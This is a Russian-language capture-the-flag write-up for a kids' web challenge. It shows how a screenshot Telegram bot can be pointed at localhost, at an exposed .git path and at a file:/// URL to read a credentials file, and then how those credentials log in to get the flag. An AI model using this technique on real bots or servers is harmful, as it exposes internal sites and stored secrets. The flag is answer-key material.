


## Справедливость

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF kids 2022 | Справедливость  | Web | Сложная |

  
### Описание


> Автор: [ vChuk ]
>
> Помоги! Я, как разработчик телеграм-ботов, попал в печальную ситуацию. Вход на сервер оказался недоступен, но [бот](https://t.me/screenshot_browser_bot) ещё работает. Еще на localhost в локальной сети работал сайт для сотрудников. Надеюсь этого хватит для решения проблемы


### Решение

Бот работает ровно так-же как и Google Chrome, делая скрины сайтов.
В описании сказано, что на localhost работает внутренний сайт компании.


Следующим шагом стоило проверить стандартные системные ссылки, одна из таких как **robots.txt** 


```text
User-agent: *
Allow: /

Disallow: /.git/
Disallow: /.git/tree
```


Пройдемся и по этим ссылкам, и в **/.git/tree** получаем информацию о файлах 




```text
A	screenbot/app/creds
```

Получаем путь до файла creds. Важно обратить внимание, что это именно **файл**, и просто так перейти к нему уже не получится. Но Google Chrome может читать файлы. Для этого неободимо просто ввести

```text
file:///full/path/to/file
```

и получим уязвимость **Path Traversal**



```text
dev_account:testpassqwerty   # логин и пароль
```

Возвращаемся к сайту. Нужно перейти по кнопке **сотрудникам**, но из-за того что это картинка, просто так это сделать нельзя.
Но можно прочиать исходный код страницы

```text
view-source:http://localhost/
```


```text
/personal_account  # <-- Ccылка на вход к сотрудникам
```

Перейдем на неё


И также посмотрим исходный код


```html
 <label class="sr-only">Логин</label>
 <input type="username" id="inputEmail" class="form-control" placeholder="Логин" required autofocus>
 <label class="sr-only">Пароль</label>
 <input type="passwd" id="inputPassword" class="form-control" placeholder="Пароль" required>
```

Это **GET** запрос, с параметрами **username** и **passwd**. 
Выполним его с найденным логином и паролем и получим флаг

```text
http://localhost/personal_account?username=dev_account&passwd=testpassqwerty
```


### Флаг

```
vka{google_chrome_can_do_a_lot_of_things_the_main_is_the_correct_query}
```
